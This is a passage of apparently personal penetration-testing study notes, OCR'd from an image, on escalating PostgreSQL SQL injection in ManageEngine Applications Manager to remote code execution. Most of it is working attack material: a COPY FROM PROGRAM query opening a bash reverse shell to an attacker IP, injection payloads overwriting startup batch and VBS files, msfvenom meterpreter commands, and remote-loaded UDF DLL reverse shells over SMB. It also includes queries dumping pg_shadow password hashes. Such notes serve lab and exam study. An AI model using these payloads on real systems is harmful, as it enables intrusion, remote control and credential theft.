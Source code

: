             query = `DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/192.168.119.162/5555 0>&1"';`
        Method 2: File Overwrite:
            Overwrite Batch file used by application (at startup)
                ex. C:\Program Files (x86)\ManageEngine\AppManager12\bin\AMWrapperPreinvokation.bat
                    Query payload:  &userId=1;copy+(select+convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$))+to+$$C:\\\\Program+Files+(x86)\\\\ManageEngine\\\\AppManager12\\\\bin\\\\AMWrapperPreInvokation.bat$$;--+
                Generate PS rev shell (Then base64 and url encode it!):  
                    x86: msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.158 LPORT=5555 -e x86/shikata_ga_nai -f psh-cmd
                    x64: msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.158 LPORT=5555 -e shikata_ga_nai -f psh-cmd
            Better: overwrite VBS file used in regular operation of application (insert malicious commands)
                Use ProcMon - ex. C:\Program\ Files\ (x86)\ManageEngine\AppManager12\working\conf\application\scripts\wmiget.vbs
                copy (select convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) to $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
                    Query payload:  &userId=1;copy+(select+convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$))+to+$$C:\\\\Program+Files+(x86)\\\\ManageEngine\\\\AppManager12\\\\working\\\\conf\\\\application\\\\scripts\\\\wmiget.vbs$$;--+
                Generate Payload:  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
                    Then base64 and url encode it (w/ Burp)!
            Tips:
                Back up file first!
                Convert the content of the target file to a one-liner and make sure it is still executing properly before appending our payload - Make sure our payload is also on a single line
                Use POST request due to payload size
        Method 3: User-Defined Function (UDF) / PostgreSQL Extensions - custom DLLs:
            Arbitrary Process Launch: awae.dll
                Testing:  create or replace function test(text, integer) returns void as $$C:\awae.dll$$, $$awae$$ language C strict; SELECT test($$calc.exe$$, 3);
                Reload extension: net stop "Applications Manager" (your service); del c:\awae.dll; net start "Applications Manager"; DROP FUNCTION test(text, integer);
                Testing remote load:  sudo impacket-smbserver awae /home/kali/awae/; CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS void AS $$\\192.168.119.120\awae\awae.dll$$, $$awae$$ LANGUAGE C STRICT; SELECT remote_test($$calc.exe$$, 3);
            Reverse Shell: rev_shell.dll (hosted via samba)
                Create Function:  CREATE OR REPLACE FUNCTION rev_shell(text, integer) RETURNS void AS $$\\192.168.119.158\awae\rev_shell.dll$$, $$connect_back$$ LANGUAGE C STRICT;
                Trigger Callback:  select rev_shell($$192.168.1.1$$, 4444);
            Alternate RevShell Method - writing rev_shell.dll to disk via PostgreSQL Large Objects:
                see largeObjectUDFRevShell.py for process
            Metasploit Method:  https://www.rapid7.com/db/modules/exploit/linux/postgres/postgres_payload/
        Method 4: Libc - https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#postgresql - easiest w/ <=8.1

### Useful PostgreSQL Queries:
	https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
	version();
	user; \\ current_user; \\ session_user; \\ usename FROM pg_user; \\ getpgusername();
	usename, passwd FROM pg_shadow;
	Privs:  usename, usecreatedb, usesuper, usecatupd FROM pg_user;  \\  current_setting('is_superuser');
	Admins:  usename FROM pg_user WHERE usesuper IS TRUE;
	current_database();
	inet_server_addr();
	inet_server_port();
	current_setting('data_directory');
	SELECT current_setting('hba_file');
